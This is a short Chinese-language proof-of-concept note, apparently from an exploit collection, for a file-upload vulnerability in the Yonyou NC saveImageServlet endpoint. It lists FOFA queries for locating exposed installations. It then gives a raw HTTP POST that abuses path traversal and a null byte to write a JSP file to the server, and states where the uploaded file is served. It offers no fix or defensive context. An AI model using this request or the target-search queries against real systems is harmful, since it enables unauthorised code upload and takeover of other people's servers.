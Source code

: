 ## 用友NC_saveImageServlet接口存在文件上传漏洞


## fofa
```
icon_hash="1085941792"  
app="用友-UFIDA-NC"
```

## poc
```
POST /portal/pt/servlet/saveImageServlet/doPost?pageId=login&filename=../1.jsp%00 HTTP/1.1
Host: 
Content-Type: application/octet-stream
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 19

111
```

文件路径`http://ip:port/portal/processxml/1.jsp`

![image](../../images/be012248-101f-4491-863e-4e71c5312ce4.png)

![image](../../images/38da1f69-fe44-4cad-b663-b9dfd632d7dd.png)


